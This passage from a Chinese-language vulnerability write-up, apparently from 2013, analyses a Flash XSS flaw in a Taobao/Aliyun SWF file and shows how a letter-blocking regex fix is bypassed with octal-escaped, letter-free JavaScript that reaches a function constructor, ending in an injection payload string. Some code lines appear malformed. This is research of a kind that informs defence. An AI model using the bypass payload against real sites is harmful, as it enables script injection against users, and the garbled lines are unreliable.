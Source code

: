 看我敲了这么多，发了这么多张图，你们觉得这个漏洞的潜在危害大么？反正我觉得挺大的，再来看看厂商对 neobyte 提交漏洞的响应：

```
危害等级：中

漏洞 Rank：8

确认时间：2013-10-12 16:44 
```

是的，厂商似乎没有感觉到这个漏洞的危害。

## 0x02 第二次漏洞报告

* * *

到了 2013 年 10 月 24 号，我已经可以查看 neobyte 所提交的漏洞详情，于是就对他所提交的这个漏洞进行了研究，由于自己对 FLASH 也推敲过一些，在明白成因之后，也下载了漏洞中所提到的那个存在缺陷的 FLASH 文件（[`acjstb.aliyun.com/actionlog/flash/JSocket.swf`](http://acjstb.aliyun.com/actionlog/flash/JSocket.swf)）。以下是对方的修复代码：

```
public function getlso():String{
    var _local1:SharedObject = SharedObject.getLocal("kj");
    var _local2:RegExp = new RegExp("[a-zA-Z]");
    if (_local1.data.key == undefined){
        return ("");
    };
    if (_local2.test(_local1.data.key)){
        this.setlso("");
        return ("");
    };
    return (_local1.data.key);
}

```

由于业务上，淘宝此处存储在 LSO 的数据，并不需要字母，但是恶意代码中却需要使用到字母，例如：alert。所以开发人员这里加上了一个正则判断：“如果所获取的数据中存在字母，则返回空字符串”。是的，看起来是被修复了，但是依然存在问题，一来，开发人员并没有过滤掉真正导致潜在危害的反斜线()，二来，Javascript 中调用函数完全可以不需要存在任何字母，纳尼？？一起来看看：

```
//我们可以使用以下方式创建一个函数:
new Function("alert(1)");
//也可以不要 new
Function("alert(1)")()
//可以将 Function 转换下
"...".substr.constructor("alert(1)")()
//再转换下
"..."["substr"]"constructor"")()
//字符串全部转义
"..."["\163\165\142\163\164\162"]"\143\157\156\163\164\162\165\143\164\157\162"()

```

这样我们就实现了不需要字母即可执行 alert(1)的目的。再利用在上一小节中所说的恶意代码构造技巧，我们只需将 AAAAAAAAAAAAAA 替换为以下代码：

```
...\"["\163\165\142\163\164\162"]"\143\157\156\163\164\162\165\143\164\157\162"()//..

```

